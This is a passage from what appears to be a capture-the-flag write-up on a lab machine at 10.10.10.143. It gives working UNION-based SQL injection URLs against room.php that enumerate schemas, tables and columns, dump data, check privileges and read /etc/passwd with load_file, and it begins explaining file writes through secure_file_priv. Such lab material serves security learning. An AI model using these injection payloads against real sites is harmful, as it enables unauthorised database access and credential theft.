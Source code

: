     `http://10.10.10.143/room.php?cod=-1 union select null,null,null,null,SCHEMA_NAME,null,null FROM INFORMATION_SCHEMA.SCHEMATA;-- //`  - returns information about databases.
    
    ![image.png](image%208.png)
    
- **Listing tables in database**
    
    `http://10.10.10.143/room.php?cod=-1 union select null,TABLE_NAME,null,null,null,TABLE_SCHEMA,null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='hotel' -- //`
    
    ![image.png](image%209.png)
    
- **Listing columns**
    
    `http://10.10.10.143/room.php?cod=-1 union select null,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,null,null,null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='room' -- //`
    
    ![image.png](image%2010.png)
    
    cod column of room table of hotel database.
    
- **Dumping data**
    
    `http://10.10.10.143/room.php?cod=-1 union select null,cod,null,null,null,null,null FROM hotel.room -- //`
    
    Reading the column I suppose we can just read valid cod numbers that we already checked and no use from them for us.
    
    ![image.png](image%2011.png)
    

As we are Database Admin we should be able to write and read data, we already encountered phpmyadmin I am gonna try to read its credentials from config file.

- Reading files
    
    Testing for super admin privileges we see that we have privileges
    
    `http://10.10.10.143/room.php?cod=-1 union select null,super_priv,null,null,null,null,null FROM mysql.user-- //`
    
    ![image.png](image%2012.png)
    
    `http://10.10.10.143/room.php?cod=-1 union select null,load_file("/etc/passwd"),null,null,null,null,null -- //`
    
    ![image.png](image%2013.png)
    
- **Writing files**
    
    The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system. Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. On the other hand, `NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege. 
    